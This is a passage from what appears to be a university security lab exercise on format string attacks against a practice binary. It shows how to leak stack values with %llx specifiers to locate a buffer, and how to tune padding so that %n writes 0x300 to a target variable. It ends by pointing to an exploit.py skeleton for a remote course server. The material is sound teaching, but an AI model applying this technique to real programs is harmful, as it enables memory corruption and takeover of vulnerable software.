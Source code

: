 2.Determine the `n`-th parameter of `printf()` that you can write to using `%n`. The `buffer` variable will have to be that parameter;  you will store the address of the `v` variable in the `buffer` variable.


3.Construct a format string that enables the attack; the number of characters processed by `printf()` until `%n` is matched will have to be `0x300`.


For the second step let\'s run the program multiple times and figure out where the `buffer` address starts. We fill `buffer` with the `aaaa` string and we expect to discover it using the `printf()` format specifiers.

``` {.code}
$  ./basic_format_string 
AAAAAAAA
%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx
7fffffffdcc07fffffffdcc01f6022897ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25

$ ./basic_format_string 
AAAAAAAA
%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx
x7fffffffdcc07fffffffdcc0116022917ffff7dd18d06c6c25786c6c25786c6c25786c6c25786c6c25786c6c25787fffffffdcc07fffffffdcc01f6022917ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a

$ ./basic_format_string 
AAAAAAAA
%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx
7fffffffdcc07fffffffdcc01f6022997ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a4141414141414141
```

In the last run we get the `4141414141414141` representation of `AAAAAAAA`. That means that, if we replace the final `%lx` with `%n`, we will write at the address `0x4141414141414141` the number of characters processed so far:

``` {.code}
$ echo -n '7fffffffdcc07fffffffdcc01f6022997ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a' | wc -c
162
```

We need that number to be `0x300`. You can fine tune the format string by using a construct such as `%32llx` to print a number on `32` characters instead of a maximum of `16` characters. See how much extra room you need and see if you reach `0x300` bytes.


The construct needn\'t use a multiple of `8` for length. You may use the `%32llx` or `%33llx` or `%42llx`. The numeric argument states the length of the print output.

After the plan is complete, write down the attack by filling the `TODO` lines in the `exploit.py` solution skeleton.


When sending your exploit to the remote server, adjust this address according to the binary running on the remote endpoint. The precompiled binary can be found in [the CNS public repository](/courses/cns/resources/repo "cns:resources:repo").
